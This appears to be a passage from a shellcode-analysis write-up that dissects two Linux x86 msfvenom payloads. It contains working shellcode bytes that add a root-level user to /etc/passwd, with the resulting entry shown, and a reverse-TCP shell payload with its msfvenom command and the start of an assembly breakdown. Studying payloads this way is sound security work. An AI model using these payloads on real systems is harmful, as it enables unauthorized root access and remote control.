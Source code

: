 ```c
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x78\x6f"
"\x70\x68\x69\x64\x69\x61\x3a\x41\x7a\x2f\x37\x76\x6e\x47\x46"
"\x32\x4e\x4e\x57\x36\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";


./shellcode
more /etc/passwd | tail -1
xophidia:Az/7vnGF2NNW6:0:0::/:/bin/bash
```

## Second payload: linux/x86/shell_reverse_tcp: ##

The first step consists in generating the shellcode et observing the way it is running:

```c
msfvenom -p linux/x86/shell_reverse_tcp -a x86 --platform linux -f c
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
````

The code is added to the shellcode.c file, as for the first example and then compiled.

### Code Analysis ###

This first section has to carry out the system call “socketcall” then sys_socket in the way
int socket(int domain, int type, int protocol);

```c
	
	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))
```
